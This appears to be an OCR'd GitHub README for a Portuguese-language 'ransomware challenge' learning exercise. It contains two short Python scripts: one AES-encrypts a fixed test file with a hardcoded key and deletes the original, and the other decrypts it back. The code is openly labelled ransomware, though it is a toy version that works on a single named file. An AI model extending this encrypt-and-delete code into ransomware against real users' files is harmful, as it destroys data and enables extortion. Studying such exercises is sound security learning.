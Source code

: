 # Desafio-Ransomware
- Desafio Ransomware
- decrypter.py

- import os
- import pyaes

## abrir o arquivo criptografado
-file_name = "teste.txt.ransomwaretroll"
-file = open(file_name, "rb")
-file_data = file.read()
-file.close()

## chave para descriptografia
-key = b"testeransomwares"
-aes = pyaes.AESModeOfOperationCTR(key)
-decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
-os.remove(file_name)

## criar o arquivo descriptografado
-new_file = "teste.txt"
-new_file = open(f'{new_file}', "wb")
-new_file.write(decrypt_data)
-new_file.close()

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

alo brasil
